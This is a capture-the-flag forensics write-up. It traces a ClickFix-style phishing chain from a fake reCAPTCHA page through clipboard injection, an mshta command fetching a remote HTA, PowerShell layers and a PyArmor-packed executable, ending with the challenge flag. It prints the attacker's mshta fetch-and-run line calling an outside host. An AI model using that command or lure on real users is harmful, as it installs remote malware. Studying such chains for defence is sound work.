

# Stop fixing my clicks - CTF Challenge Writeup

## Challenge Information
- **Name**: Stop fixing my clicks  
- **Points**: 10  
- **Category**: Forensics  
- **Objective**: Investigate a phishing email and trace its payload chain through clipboard injection, remote code execution, and multiple layers of obfuscation. Identify and extract the attacker’s final payload and recover the embedded flag through reverse engineering or memory forensics.

---

## Solution

### 1. **Initial Analysis: Email File**
- The challenge starts with an **email artifact**.
- Decoding its **Base64 content** revealed HTML designed to improve the visual presentation of the email.
- The HTML included:
  - A **phishing link**
  - An **image**
- Going to the phishing link led to a fake reCAPTCHA verification page, instructing the user to paste a value into Windows Registry — clearly suspicious behavior. 
- There will not be images regarding this phishing website since the website has been taken down at the time of writing this writeup, not sure if its because the participants reported it or the organisers removed it.


    


   

---

### 2. **Clipboard Injection**
- Surprisingly, browsing to the website and clicking a button will poppulate my clipboard the expected value, suggesting the site auto-injected content using JavaScript. 
- The clipboard-pasted command was:
  
    ```bash
    mshta http://www.h0tbirdgl4z3rs.online/sameko_saba_exposed.mp4 # ✅ ''I am not a robot - reCAPTCHA Verification ID: 2165
    ```

- This command uses **`mshta`**, a known Windows utility abused by attackers to fetch and execute `.hta` payloads.

---

### 3. **Fetching the Payload**
- Used `curl` to retrieve the HTA file manually.
- The response contained a **PowerShell command** with a **large Base64 blob**.
- Decoding this led to another **PowerShell script**.


    


    


---

### 4. **Executable Payload**
- Decoding the inner Base64 string revealed content beginning with **`MZ`**, indicating a **Windows executable**.

    

- The binary was downloaded and analyzed:
  - Identified as a **Python-compiled executable**.
- When working with an EXE file, it’s important to identify the language it was compiled from—whether it’s .NET, Python, Rust, or something else. The decompilation process differs depending on the language used.
- Tools like `pyinstxtractor` and `pycdc` were used to begin decompilation.


    

---

### 5. **Obfuscation Barrier: PyArmor**
- Analysis revealed that the executable was protected with **PyArmor**, a tool designed to obfuscate and encrypt Python code.
- PyArmor is notoriously difficult to reverse statically and I personally was not able to use any methods mentioned online.

    

---

### 6. **Memory Dump Strategy**
- I eventually gave up trying the methods suggested by most github and research papers and resorted to do something retarded, referenced from [Medium Article](https://medium.com/@keii./analysis-of-pyarmor-obfuscated-python-malware-without-deobfuscating-the-source-itsec-ctf-2025-240052f8ccc0).
- Talking to the challenge authors after the CTF, I found that this isnt the intended solution but conceptually it matches the intended solution.
- The idea is to  **execute the binary**, then performed a **live memory dump**.

    

- After dumping memory, used `grep` to search for URLs or strings of interest.
- Discovered a **link to the attacker’s database**.

    

    

---

### 7. **Flag Retrieval**
- The database contained a **ZIP archive**, which appeared to contain the flag.
- The archive was **password-protected**. 

    

- Surprisingly, I see my hostname in the database as well 👀, meaning when I executed the binary for memory dumping, it actually captured by data and send it to the CTF server (attacker server). Please dont reveal my data zach/robbin.
- Since the zip file is password protected, I attempted to crack it but it failed.
- Continued grepping surrounding memory lines revealed **several potential password candidates**.
- After trial-and-error with various strings found, one of them successfully unlocked the archive.

    


    

- Inside: **the flag**.

    

---

## Flag
The flag for this challenge is:  
`sunctf25{A_v3ry_le9A1_d0CUM3NT}`